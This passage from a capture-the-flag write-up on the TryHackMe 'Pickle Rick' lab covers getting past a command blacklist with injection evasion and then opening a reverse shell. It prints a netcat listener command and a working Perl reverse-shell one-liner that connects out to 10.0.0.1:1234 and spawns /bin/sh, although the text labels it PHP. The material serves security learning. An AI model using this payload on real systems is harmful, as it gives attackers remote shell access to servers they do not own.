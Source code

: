 ![Burpsuite Repeater](images/thm-pickle-rick/burpsuite-repeater.png)

![Burpsuite Repeater Results](images/thm-pickle-rick/burpsuite-repeater-2.png)

As we can see that we were able to bypass the blacklist by using command injection evasion techniques. For more information on some of the other evasion techniques refer to the attached resources

[Command Injection Bypass Cheatsheet \| by ninja hatori \| Medium](https://medium.com/@hninja049/command-injection-bypass-cheatsheet-4414e1c22c99)

[PayloadsAllTheThings/Command Injection at master · swisskyrepo/PayloadsAllTheThings · GitHub](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection)

Now that we know how to evade the filtering let's access the portal.php file and see if we can find any credentials related to the database that we can exploit to gain access to the server.

![Burpsuite Repeater Results](images/thm-pickle-rick/burpsuite-repeater-3.png)

Well, no credentials were found but we were able to see the list of commands that are getting blocked by the web server.

## Approach 1: Using Reverse Shell

The next logic process that we can try is to set up a reverse shell. So that we can access the other directories that are present on the server. For all the different types of reverse shells that can be setup checkout the amazing resource provided by "PayloadAllThings"

[PayloadsAllTheThings/Reverse Shell Cheatsheet.md at master · swisskyrepo/PayloadsAllTheThings · GitHub](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)

Let's set up a listener on our system using Netcat (The Reverse Shell will connect to this listener on our system)

```
> netcat -nvlp 1234  
listening on [any] 1234 ...
```

From the above resource I used the PHP reverse shell code to get a connection

_(The bash and the netcat reverse shells scripts have also been found to work on this box as well)_

```
perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

**Note:** The IP in the above code needs to be changed with the TryHackMe VPN IP Address which can be found using "ip a show tun0" under Inet

![Netcat Listener|420](images/thm-pickle-rick/netcat-listener.png)

We have successfully set up a reverse shell. Let's look at the "clue.txt" file to see if we get information as to where the other two ingredients might be hidden in the system.

